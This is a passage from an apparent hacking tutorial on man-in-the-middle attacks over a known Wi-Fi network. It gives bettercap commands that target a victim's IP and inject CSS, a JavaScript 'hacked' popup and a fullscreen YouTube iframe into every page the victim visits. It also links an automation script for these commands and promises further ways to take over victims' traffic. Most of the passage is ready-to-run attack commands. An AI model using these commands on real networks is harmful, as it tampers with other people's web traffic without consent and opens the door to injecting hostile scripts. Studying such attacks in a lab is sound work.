 <pre>sudo bettercap -I wlan0 -T 192.168.1.14 --proxy-module injectcss --css-data '*{background-color:#fd3078!important; color:white!important}'</pre>

**Give a popup &#8220;HACKED&#8221;:** 

<pre>sudo bettercap -I wlan0 -T 192.168.1.14 --proxy-module injectjs --js-data 'alert("hacked");'</pre>

**Play youtube-video fullscreen on all visited pages:**

<pre>sudo bettercap -I wlan0 -T 192.168.1.14 --proxy-module injecthtml --html-file baby.html

#baby.html
&lt;iframe style="position:absolute; z-index:10000" width="100%" height="100%"
src="https://www.youtube.com/embed/kffacxfA7G4?autoplay=1" frameborder="0" allowfullscreen&gt;&lt;/iframe&gt;
&lt;div style="position:absolute;width:100%;height:100%;z-index:10001;"&gt;&lt;/div&gt;'</pre>

To give some easy demo&#8217;s, I made a script that contains these commands and a bit more. If you take a look at [this github-repo](https://github.com/larsveelaert/HackOTG), you can find all the files we use for the HackOTG, and the file [mitm.sh](https://github.com/larsveelaert/HackOTG/blob/master/mitm.sh), which is a general _bettercap-_script to use on any device. Just run it with _sh_ and answer the questions to automate the commands shown above.

So here we can end our attack on networks we already know the password to. Next we will dive into other ways to get control over a victims traffic.